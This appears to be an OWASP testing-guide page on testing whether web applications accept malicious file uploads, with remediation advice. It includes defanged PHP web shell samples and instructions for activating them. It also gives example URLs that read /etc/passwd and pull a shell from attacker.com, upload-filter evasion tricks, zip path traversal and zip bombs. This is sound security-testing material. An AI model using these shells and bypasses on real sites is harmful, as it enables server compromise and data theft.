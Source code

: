 ```yaml
---
layout: col-document
title: WSTG - Latest
tags: WSTG
stamp: 20200319005119
---
```

# Test Upload of Malicious Files

## Summary

Many application’s business processes allow for the upload of data/information. We regularly check the validity and security of text but accepting files can introduce even more risk. To reduce the risk we may only accept certain file extensions, but attackers are able to encapsulate malicious code into inert file types. Testing for malicious files verifies that the application/system is able to correctly protect against attackers uploading malicious files.

Vulnerabilities related to the uploading of malicious files is unique in that these “malicious” files can easily be rejected through including business logic that will scan files during the upload process and reject those perceived as malicious. Additionally, this is different from uploading unexpected files in that while the file type may be accepted the file may still be malicious to the system.

Finally, “malicious” means different things to different systems, for example Malicious files that may exploit SQL server vulnerabilities may not be considered a “malicious” to a main frame flat file environment.

The application may allow the upload of malicious files that include exploits or shellcode without submitting them to malicious file scanning. Malicious files could be detected and stopped at various points of the application architecture such as: IPS/IDS, application server anti-virus software or anti-virus scanning by application as files are uploaded (perhaps offloading the scanning using SCAP).

## Example

Suppose a picture sharing application allows users to upload their .gif or .jpg graphic files to the web site. What if an attacker is able to upload a PHP shell, or exe file, or virus? The attacker may then upload the file that may be saved on the system and the virus may spread itself or through remote processes exes or shell code can be executed.

## How to Test

### Generic Testing Method

- Review the project documentation and use exploratory testing looking at the application/system to identify what constitutes and “malicious” file in your environment.

- Develop or acquire a known “malicious” file. An [EICAR anti-malware test file](https://2016.eicar.org/85-0-Download.html) can be used as harmless, but widely detected by antivirus software.

- Try to upload the malicious file to the application/system and verify that it is correctly rejected.

- If multiple files can be uploaded at once, there must be tests in place to verify that each file is properly evaluated.

### Exploit Payload

- Using the Metasploit payload generation functionality generates a shellcode as a Windows executable using the Metasploit “msfpayload” command.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

### Malicious File

- Develop or create a file that should fail the application malware detection process. There are many available on the Internet such as ducklin.htm or ducklin-html.htm.

- Submit the executable via the application’s upload functionality and see if it is accepted or properly rejected.

[Intended Use - EICAR](https://2016.eicar.org/86-0-Intended-use.html)

### WebShell Backdoor

For example upload the `WebShell-backdoor.php` to the target victim site.

```php
<?php
    if(isset($_REQUEST['rq'])){
        echo "<pre>";
        $rq= ($_REQUEST['rq']);
        /* Replace CENSORED with system ($rq) to activate the sample */
        CENSORED;
        echo "</pre>";
        die;
    }
?>
```

Once it's uploaded, the testers/hackers may get the password by visiting the URL below.

`http://TargetVictimSite.com/WebShell-backdoor.php?rq=cat+/etc/passwd`

or it may execute by remote file injection as below.

`http://TargetVictimSite.com/File.php?include=http://attacker.com/WebShell-backdoor.php`

Other PHP example:

```php
<?php @CENSORED($_POST['password']);?>
```

> Replace @CENSORED with @eval

### Invalid File

- Set up the intercepting proxy to capture the “valid” request for an accepted file.

- Send an “invalid” request through with a valid/acceptable file extension and see if the request is accepted or properly rejected.

### Source Code Review

When there is file upload feature supported, the following API/methods are common to be found in the source code.

- Java: new file, import, upload, getFileName, Download, getOutputString
- C/C++: open, fopen
- PHP: move_uploaded_file(),Readfile, file_put_contents(),file(),parse_ini_file(), copy(),fopen(),include(), require()

### Evasion of the Filter

The following techniques may be used to bypass the website file upload checking rules and filters.

- Change the value of `Content-Type` as `image/jpeg` in HTTP request
- Change the extensions as executable extensions such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml
- Changes of capital letters of extensions. such as file.PhP or file.AspX
- Using special trailing such as spaces, dots or null characters such as file.asp… . file.php;jpg, file.asp%00.jpg, 1.jpg%00.php

The executable extensions should be in black list such as file.php5, file.shtml, file.asa, file.cert, file.jsp, file.jspx, file.aspx, file.asp, file.phtml

- In IIS6 vulnerability, if the file name is file.asp;file.jpg, the file will be executed as file.asp.

`http://www.targetVictim.com/path/file.asp;file.jpg`

- In NginX, if the original file name is test.jpg, testers/hackers may change it to `test.jpg/x.php`

Once it's uploaded, the file will be executed as x.php

### Zip files path

One Zip file may contain the malicious PHP with target purpose path such as `..\\..\\..\\..\\hacker.php`. If the website doesn't check the unzip target path, the hacker.php may unzip to the specified path.

### Zip Bomp

Upload the [ZIP bomb](https://github.com/AbhiAgarwal/notes/wiki/Zip-bomb) file that may cause application denial of service.

- new File, file, OutputSteam, upload, import, file_put_contents, open, fopen

## Related Test Cases

[Test File Extensions Handling for Sensitive Information (WSTG-CONFIG-003)](../4.3_Configuration_and_Deployment_Management_Testing/4.3.3_Test_File_Extensions_Handling_for_Sensitive_Information_WSTG-CONFIG-003.md)

[Test Upload of Unexpected File Types (WSTG-BUSLOGIC-008)](../4.11_Business_Logic_Testing/4.11.8_Test_Upload_of_Unexpected_File_Types_WSTG-BUSLOGIC-008.md)

## Tools

- Metasploit's payload generation functionality

- Intercepting proxy

## References

[OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

[Why File Upload Forms are a Major Security Threat](https://www.acunetix.com/websitesecurity/upload-forms-threat/)

[Overview of Malicious File Upload Attacks](http://securitymecca.com/article/overview-of-malicious-file-upload-attacks/)

[8 Basic Rules to Implement Secure File Uploads](https://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads)

[Stop people uploading malicious PHP files via forms](https://stackoverflow.com/questions/602539/stop-people-uploading-malicious-php-files-via-forms)

[How to Tell if a File is Malicious](https://www.techsupportalert.com/content/how-tell-if-file-malicious.htm)

[CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

[Implementing Secure File Upload](https://infosecauditor.wordpress.com/tag/malicious-file-upload/)

[Metasploit Generating Payloads](https://www.offensive-security.com/metasploit-unleashed/Generating_Payloads)

## Remediation

While safeguards such as blacklisting or whitelisting of file extensions, using “Content-Type” from the header, or using a file type recognizer may not always be protections against this type of vulnerability. Every application that accepts files from users must have a mechanism to verify that the uploaded file does not contain malicious code. Uploaded files should never be stored where the users or attackers can directly access them.
